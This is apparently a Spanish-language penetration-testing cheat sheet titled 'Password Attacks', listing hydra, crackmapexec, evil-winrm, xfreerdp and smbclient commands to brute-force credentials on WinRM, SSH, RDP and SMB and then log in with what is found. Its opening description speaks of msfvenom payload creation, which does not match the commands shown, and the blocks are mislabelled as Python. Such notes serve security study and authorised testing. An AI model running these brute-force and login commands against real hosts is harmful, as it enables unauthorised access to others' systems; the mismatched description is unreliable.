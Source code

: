 # Password Attacks o Ataques de Contraseña
## Descripción
MSFVENOM es una herramienta que viene integrada en metasploit framework que sirve principalmente para crear payloads, podemos ver algunos ejemplos con enconders para darle algo mas de sabor.

### WinRM (5985 HTTP y 5986 HTTPS)
```python
crackmapexec winrm IP -u user.list -p password.list
evil-winrm -i IP -u user -p password (tenemos credenciales arriba y esto es para hacer login)
```
### SSH (22)
```python
hydra -L user.list -P password.list ssh://IP
ssh user@IP (para ganar acceso al sistema con las credenciales descubiertas)
```
### RDP (3389)
```python
hydra -L user.list -P password.list rdp://IP
xfreerdp /v:IP /u:user /p:password (para ganar acceso al sistema con las credenciales descubiertas)
```
### SMB (445)
```python
hydra -L user.list -P password.list smb://IP
crackmapexec smb IP -u "user" -p "password" --shares
smbclient -U user \\\\IP\\SHARENAME
```
